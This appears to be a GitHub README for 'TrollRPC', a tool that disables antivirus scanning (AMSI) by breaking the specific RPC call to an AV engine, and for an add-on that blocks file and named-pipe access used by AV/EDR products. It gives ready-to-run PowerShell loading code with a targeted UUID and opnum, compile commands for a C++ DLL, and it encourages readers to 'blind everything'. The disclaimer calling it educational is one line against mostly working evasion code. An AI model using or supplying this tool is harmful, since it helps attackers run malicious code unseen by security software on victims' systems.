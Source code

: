 ## UPDATES
```diff
! UPDATE 11/06/2025
! Added TrollPipe.cs to block CreateFileW to Files or Named Pipes because some AV/EDR use that instead of RPC
! [TrollPipe]::DisappearFileorPipe("<pipe or file name>")
'''

# TrollRPC
So what is TrollRPC? Its a library to blind RPC calls based on UUID and OPNUM
![Image](https://github.com/user-attachments/assets/e0fb9e17-def8-4627-847f-7bc60449115a)
<br/> 
https://github.com/andreisss/Ghosting-AMSI released a amsi bypass by breaking NdrClientCall3 which means every subsequent RPC call (eg. some name resolution uses RPC thats why web requests to github fail) breaks which kind of makes the technique obsolete. This particular dll will only break the specific RPC call to the AV scan engine, allowing all other RPC calls through. This means you can bypass amsi for **both powershell/clr** and then continue running commands that require RPC (everything lol). 

## C#
```
[System.Reflection.Assembly]::LoadFile("C:\TrollRPC.dll") 
$UUID = "c503f532-443a-4c69-8300-ccd1fbdb3839"             # The UUID you are targetting
$Opnum = 0x5E                                              # The opnum you are targetting
$Opnum_break = 0x1F4                                       # Modify the opnum to an invalid value                   
[TrollRPC]::Blind($UUID, $Opnum, $Opnum_break)
```

## C++
C++ doesnt allow dynamic input of UUID and OPNUM, have to manually tweak the asmstub to put in the OPNUM you want and recompile (easiest way)
```
#Use Visual Studio Command Prompt to compile first, alternatively, you can use the compiled dll
ml64 /c /nologo /Fo AsmStub.obj AsmStub.asm
cl /LD /O2 /MD /DNDEBUG /Zl /GS- /Gy /GF TrollRPC.cpp AsmStub.obj /link kernel32.lib user32.lib msvcrt.lib /OPT:REF /OPT:ICF /DEBUG:NONE /PDB:NONE

Running on powershell -> Right now its hardcoded for a specific AV engine ;)
Add-Type -MemberDefinition @"
    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern IntPtr LoadLibrary(string lpFileName);
"@ -Namespace Win32 -Name NativeMethods

[Win32.NativeMethods]::LoadLibrary("C:\TrollRPC.dll")
```

## Disclaimer
Should only be used for educational purposes!

## Upgrades
- Be creative, blind everything, not just amsi
- opsec not taken into consideration, its just functional








